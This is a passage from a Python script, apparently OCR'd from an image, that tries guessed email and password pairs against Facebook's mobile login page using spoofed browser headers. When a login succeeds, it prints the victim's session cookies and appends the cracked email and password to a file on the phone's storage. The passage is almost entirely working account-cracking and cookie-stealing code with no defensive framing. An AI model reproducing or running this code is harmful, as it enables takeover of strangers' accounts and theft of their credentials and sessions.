             "pragma": 'no-cache',
            "priority": 'u=1',
            "cross-origin-resource-policy": 'cross-origin',
            "upgrade-insecure-requests": '1',
            "user-agent": uuu,}
            session.post(url="https://m.facebook.com/login/?next&ref=dbl&fl&login_from_aymh=1&refid=8",data=info,headers=update).text
            heron_brand=session.cookies.get_dict().keys()
            if "c_user" in heron_brand:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid=coki.split("c_user")[:15]
                if "Alive" == live_ck(cid):
                    print(f"\r\r[reverse white][FreeFire][/reverse white] {cid} | {ps}   \n[🎮][green1]{coki} \n")
                    open("/sdcard/FreeFire.txt.txt","a").write(Gmail+"|"+ps+"\n")
                    oks.append(Gmail)
                else:pass
            else:continue
        done+=1
    except:
        time.sleep(10)
    



if __name__=="__main__":
    main()


















